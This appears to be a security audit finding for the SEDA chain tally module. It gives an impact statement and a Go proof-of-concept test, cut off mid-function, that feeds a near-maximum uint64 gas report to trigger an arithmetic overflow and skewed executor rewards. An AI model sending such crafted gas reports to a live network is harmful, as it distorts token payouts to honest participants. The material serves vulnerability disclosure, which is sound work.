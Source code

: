 ### Impact

The protocol suffers from unfair token distribution where honest executors receive less compensation than they should, while malicious executors can potentially receive disproportionate rewards. This breaks the economic security of the system and undermines the incentive mechanism for honest reporting.



### PoC

Create a new file: `x/tally/keeper/overflow_test.go`

```go
package keeper_test

import (
	"testing"

	"cosmossdk.io/math"

	"github.com/sedaprotocol/seda-chain/x/tally/keeper"
	"github.com/sedaprotocol/seda-chain/x/tally/types"
)

// TestGasMeteringOverflow demonstrates the vulnerability in gas metering calculations
// This test shows how providing extremely large gas reports can cause anomalous distributions
func TestGasMeteringOverflow(t *testing.T) {
	// Setup test values
	executors := []string{"executor1", "executor2", "executor3"}

	// Create a test case with two normal gas reports and one extremely high one
	normalGasReport := uint64(1000000)
	// Maximum uint64 value (2^64-1)
	maxUint64Value := ^uint64(0)
	overflowValue := maxUint64Value - 100 // Very close to overflow

	t.Logf("Normal gas report: %d", normalGasReport)
	t.Logf("Overflow value: %d", overflowValue)
	t.Logf("Max uint64 value: %d", maxUint64Value)

	// EXPLOIT EXPLANATION
	t.Logf("\n--- EXPLOIT EXPLANATION ---")
	t.Logf("The vulnerability occurs when an attacker submits an extremely large gas report")
	t.Logf("When performing uint64 multiplication with large numbers, overflow will occur")
	t.Logf("For example: %d * 2 = %d (which overflows and becomes %d)",
		overflowValue, overflowValue*2, overflowValue*2)
	t.Logf("This overflow causes incorrect gas calculations leading to unfair token distributions")
	t.Logf("------------------------\n")

	gasReports := []uint64{normalGasReport, normalGasReport, overflowValue}

	// No outliers for this test
	outliers := []bool{false, false, false}

	// Standard replication factor
	replicationFactor := uint16(3)

	// Setup a gas meter with reasonable limits using the existing package
	gasMeter := types.NewGasMeter(
		1e13, // Tally gas limit
		1e13, // Execution gas limit
		types.DefaultMaxTallyGasLimit,
		math.NewIntWithDecimal(1, 18), // Gas price: 1 token
		types.DefaultGasCostBase,
```